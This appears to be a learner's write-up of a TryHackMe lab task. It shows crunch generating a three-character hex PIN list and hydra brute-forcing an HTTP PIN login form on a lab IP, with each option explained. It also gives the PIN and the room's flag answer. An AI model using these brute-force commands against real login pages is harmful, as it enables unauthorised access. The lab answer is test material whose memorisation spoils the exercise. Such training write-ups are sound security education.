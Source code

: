 The command above shows that `hydra` has successfully found a working password. On the AttackBox, running the above command should finish within three minutes.

We have just discovered the new password for the IT server room. Please enter the password you have just found at http://MACHINE_IP:8000/ using the AttackBox’s web browser. This should give you access to control the door.

Now, we can retrieve the backup tapes, which we’ll soon use to rebuild our systems.

Answer the questions below

Using `crunch` and `hydra`, find the PIN code to access the control system and unlock the door. What is the flag?

Following the guide above

We use crunch to create a Password List that will be used by Hydra.

```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
- `3` the first number is the minimum length of the generated password
- `3` the second number is the maximum length of the generated password
- `0123456789ABCDEF` is the character set to use to generate the passwords
- `-o 3digits.txt` saves the output to the `3digits.txt` file

After generating the Password List we move on to Hydra and run the given command.
```
hydra -l '' -P 3digits.txt -f -v 10.10.53.144 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.53.144` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target

This will take a few minutes to finish

![[Pasted image 20231205225402.png]]

We get `6F5` as the passcode for the door. Enter the passcode then unlock the door to get the flag.

![[Pasted image 20231205230147.png]]

![[Pasted image 20231205230232.png]]

Ans: THM{pin-code-brute-force}

If you have enjoyed this room please check out the [Password Attacks](https://tryhackme.com/room/passwordattacks) room.
